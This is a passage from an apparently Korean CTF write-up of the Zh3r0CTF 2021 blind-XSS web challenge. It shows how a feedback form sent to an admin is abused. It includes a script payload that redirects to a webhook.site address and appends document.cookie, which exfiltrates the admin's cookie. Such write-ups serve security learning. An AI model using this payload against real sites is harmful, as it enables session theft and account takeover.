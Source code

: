     그런 다음 /feedback Page로 이동을 해보면 이렇게 admin 관리자에게 피드백을 전송할 수 있는 공간이 주어지게 됩니다.

    ![Untitled%203.png](\post-images\Zh3r0CTF\WEB\2021\bxss\Untitled%203.png)

    ---

    해당 입력 칸에 webhook으로 공격자의 서버로 이동하도록 JS으로 페이로드를 짜면 

    ```html
    <script>window.location.href='https://webhook.site/41d15f1d-def1-481f-b8d0-e0439ac68a34'</script>
    ```

    ![Untitled%204.png](\post-images\Zh3r0CTF\WEB\2021\bxss\Untitled%204.png)

    이렇게 webhook에 요청된 정보를 볼 수 있습니다.

    ```html
    <script>window.location.href='https://webhook.site/41d15f1d-def1-481f-b8d0-e0439ac68a34?c='+document.cookie</script>
    ```

    해당 기능을 이용하여 `document.cookie` 해당 admin이 가지고 있는 쿠키를 확인해볼려 시도하면

    ![Untitled%205.png](\post-images\Zh3r0CTF\WEB\2021\bxss\Untitled%205.png)
